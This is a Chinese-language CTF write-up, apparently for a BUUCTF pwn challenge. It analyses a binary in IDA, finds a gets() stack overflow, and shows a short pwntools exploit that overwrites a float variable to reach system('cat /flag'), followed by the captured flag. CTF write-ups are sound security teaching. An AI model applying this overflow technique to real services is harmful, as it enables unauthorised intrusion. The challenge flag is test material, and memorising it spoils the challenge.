






- Checksec进行分析：
    

- 进入ida进行分析：
    查看main：
    
    可以看到红框部分都是一些初始化的操作，箭头所指的方向调用了一个函数func，跳转到func进行分析

    
    通过简单分析``func``函数可知，用户可以通过``gets``函数输入无限的数据（造成栈溢出）

    
    上图可以看到v1的栈

    看到这里思路可以说是非常的清晰了，通过main函数进行func函数，然后通过gets传入v1的值，然后我们可以通过gets传入v1的时候覆盖掉v2里原本的值使得覆盖过后的值和程序原本设定的值相同从而执行``system(”cat /flag”);``

    
    ``ucomiss xmm0, cs:dword_4007F4``这句用于比较，所以不难猜测``dword_4007F4``就是``11.28125``

- 编写EXP：
    ```python
    from pwn import *
    a = remote("node5.buuoj.cn", 28279)
    a.sendline(b"A" * (0x30 + 4) + p32(0x41348000))
    a.interactive()
    ```

- 运行拿到FLAG：
    
    ``FLAG：flag{3b1becad-5b97-4b4a-ade6-eee4c0156928}``